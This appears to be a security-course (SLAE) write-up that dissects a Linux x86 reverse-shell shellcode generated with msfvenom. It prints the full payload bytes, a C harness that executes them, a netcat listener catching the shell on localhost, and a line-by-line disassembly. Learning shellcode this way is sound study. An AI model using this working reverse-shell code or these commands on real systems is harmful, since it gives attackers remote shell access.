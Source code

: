 # Shellcode No.2 - TCP Reverse Shell

<p style="text-align: justify;">At second glance, we'll take payload linux/x86/shell_reverse_tcp, very similar to the shellcode we wrote in the second SLAE exam task.</p>

------------------------------------------------------------------------------------------------------------------------
<p style="text-align: justify;">Again, we'll use msfvenom for shellcode generation:</p>

```sh
$ msfvenom -p linux/x86/shell_reverse_tcp LPORT=1234 LHOST=127.0.0.1 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
unsigned char buf[] =
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00\x01\x68"
"\x02\x00\x04\xd2\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80";
```
------------------------------------------------------------------------------------------------------------------------
shellcode.c wrapped updating:
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00\x01\x68"
"\x02\x00\x04\xd2\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80";

main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
------------------------------------------------------------------------------------------------------------------------
Compiling and executing:
```sh
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
$ ./shellcode 
Shellcode Length:  26
```
------------------------------------------------------------------------------------------------------------------------
<p style="text-align: justify;">In the second terminal we can use netcat for setting up a listener:</p>

```sh
$ nc -nvlp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 55473)
id
uid=1000(slae) gid=1000(slae) groups=1000(slae),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),107(lpadmin),124(sambashare)
```

<p style="text-align: justify;">Fantastic, everything works fine. As we see, again there are some null bytes, which breaks our "Shellcode Length" counter.</p>

------------------------------------------------------------------------------------------------------------------------
Let's use ndisasm again.
```sh
$ echo -ne "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00\x01\x68\x02\x00\x04\xd2\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80" | ndisasm -u -
```
```nasm
00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
00000004  53                push ebx
00000005  43                inc ebx
00000006  53                push ebx
00000007  6A02              push byte +0x2
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66
0000000D  CD80              int 0x80
0000000F  93                xchg eax,ebx
00000010  59                pop ecx
00000011  B03F              mov al,0x3f
00000013  CD80              int 0x80
00000015  49                dec ecx
00000016  79F9              jns 0x11
00000018  687F000001        push dword 0x100007f
0000001D  68020004D2        push dword 0xd2040002
00000022  89E1              mov ecx,esp
00000024  B066              mov al,0x66
00000026  50                push eax
00000027  51                push ecx
00000028  53                push ebx
00000029  B303              mov bl,0x3
0000002B  89E1              mov ecx,esp
0000002D  CD80              int 0x80
0000002F  52                push edx
00000030  686E2F7368        push dword 0x68732f6e
00000035  682F2F6269        push dword 0x69622f2f
0000003A  89E3              mov ebx,esp
0000003C  52                push edx
0000003D  53                push ebx
0000003E  89E1              mov ecx,esp
00000040  B00B              mov al,0xb
00000042  CD80              int 0x80
```
------------------------------------------------------------------------------------------------------------------------

<p style="text-align: justify;">The analysis of this shellcode will be divided into four parts, corresponding to the system calls called. </p>

### socket() ###
```nasm
00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
00000004  53                push ebx
00000005  43                inc ebx
00000006  53                push ebx
00000007  6A02              push byte +0x2
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66
0000000D  CD80              int 0x80			
```
<p style="text-align: justify;">At the beginning a socket is prepared. For this purpose, socket() syscall is used, called from socketcall()) syscall, taking the following arguments as components: socket(AF_INET, SOCK_STREAM, IPPROTO_IP). </p>

- For this purpose, the EBX, EAX and EDX registers are first cleaned. Using the mul instruction reduces the shellcode length by 1.
```nasm
00000000  31DB              xor ebx,ebx					
00000002  F7E3              mul ebx
```

<p style="text-align: justify;">Then, in the reverse order, the values of the above arguments are thrown onto the stack. In order:</p>
- The value 0 is pushed on the stack (IPPROTO_IP = 0)
```nasm
00000004  53                push ebx
```
- EBX is incremented so that you can use it both when calling socket() (sys_socket = 1), and by placing the second argument on the stack
```nasm
00000005  43                inc ebx 
```
- Value 1 is pushed on the stack (SOCK_STREAM = 1)
```nasm
00000006  53                push ebx 	
```
- Value 2 is pushed on the stack (AF_INET = 2)
```nasm
00000007  6A02              push byte +0x2 
```
- Stack pointer (ESP) is directed to the arguments of the socket() system call
```nasm
00000009  89E1              mov ecx,esp 
```
- Socketcall() syscall is called, creating socket with our socket() syscall - sockfd
```nasm
0000000B  B066              mov al,0x66 
```
- After syscall, the sockfd address will be stored in the EAX registry 
```nasm
0000000D  CD80              int 0x80	
```			
------------------------------------------------------------------------------------------------------------------------

### dup2() ###
```nasm
0000000F  93                xchg eax,ebx
00000010  59                pop ecx
00000011  B03F              mov al,0x3f
00000013  CD80              int 0x80
00000015  49                dec ecx
00000016  79F9              jns 0x11
```
<p style="text-align: justify;">Then three dup2() syscalls will be called. For this shellcode, a loop that is executed three times (STDIN = 0, STDOUT = 1, STDERR = 2) will be used for this.</p>
- We exchange values of EAX and EBX registers
```nasm
0000000F  93                xchg eax,ebx
```
- Pop address from top of the stack to the ECX registry (it is a value of 3, as many as the loop should be repeated)
```nasm
00000010  59                pop ecx
```
- Moving value 63 to the EAX registry
```nasm
00000011  B03F              mov al,0x3f
```
- Syscall execution
```nasm
00000013  CD80              int 0x80
```
- ECX registry decrementation (3 --> 2)
```nasm
00000015  49                dec ecx
```
- Loop operating dup2() system calls
```nasm
00000016  79F9              jns 0x11
```
------------------------------------------------------------------------------------------------------------------------

### connect() ###
```nasm
00000018  687F000001        push dword 0x100007f
0000001D  68020004D2        push dword 0xd2040002
00000022  89E1              mov ecx,esp
00000024  B066              mov al,0x66
00000026  50                push eax
00000027  51                push ecx
00000028  53                push ebx
00000029  B303              mov bl,0x3
0000002B  89E1              mov ecx,esp
0000002D  CD80              int 0x80
```

<p style="text-align: justify;">Then connect() syscall is called. First, we are pushing the IP address and port values on the stack to which our reverse shell should connect.</p>
- Push out address 127.0.0.1 (in reverse order)
```nasm
00000018  687F000001        push dword 0x100007f
```
- Pushing out port 1234 (in reverse order) and the value of `word 2`, being the argument: AF_INET = 2
```nasm
0000001D  68020004D2        push dword 0xd2040002
```
- Stack pointer (ESP) is directed to the arguments of the struct
```nasm
00000022  89E1              mov ecx,esp
```
- Socketcall() syscall is called
```nasm
00000024  B066              mov al,0x66
```
- Pushing 0 (string terminator)
```nasm
00000026  50                push eax
```
- Pushing const struct sockaddr *addr - stack pointer with struct arguments
```nasm
00000027  51                push ecx
```
- Pushing our sockfd pointer
```nasm
00000028  53                push ebx
```
- sys_connect() call
```nasm
00000029  B303              mov bl,0x3
```
- Stack pointer (ESP) is directed to the arguments of the connect() system call
```nasm
0000002B  89E1              mov ecx,esp
```
- syscall execution
```nasm
0000002D  CD80              int 0x80
```
------------------------------------------------------------------------------------------------------------------------

### execve() ###
```nasm
0000002F  52                push edx
00000030  686E2F7368        push dword 0x68732f6e
00000035  682F2F6269        push dword 0x69622f2f
0000003A  89E3              mov ebx,esp
0000003C  52                push edx
0000003D  53                push ebx
0000003E  89E1              mov ecx,esp
00000040  B00B              mov al,0xb
00000042  CD80              int 0x80
```
<p style="text-align: justify;">The last syscall will be execve(), which will send /bin/sh shell to specified address:port.</p>
- Pushing string terminator (null) on the stack
```nasm
0000002F  52                push edx
```
- Pushing value "n/sh" on the stack (reverse order)
```nasm
00000030  686E2F7368        push dword 0x68732f6e
```
- Pushing value "//bi" on the stack (reverse order)
```nasm
00000035  682F2F6269        push dword 0x69622f2f
```
- We transfer the top of the stack address to the EBX registry
```nasm
0000003A  89E3              mov ebx,esp
```
- Another string terminator 
```nasm
0000003C  52                push edx
```
- Pushing previous stack pointer 
```nasm
0000003D  53                push ebx
```
- Setting new stack pointer pointing our arguments
```nasm
0000003E  89E1              mov ecx,esp
```
- Moving 11 (value of execve() syscall) to EAX
```nasm
00000040  B00B              mov al,0xb
```
- Syscall execution
```nasm
00000042  CD80              int 0x80
```
------------------------------------------------------------------------------------------------------------------------
That's all, reverse shell working properly.

### Pwned. ###

------------------------------------------------------------------------------------------------------------------------
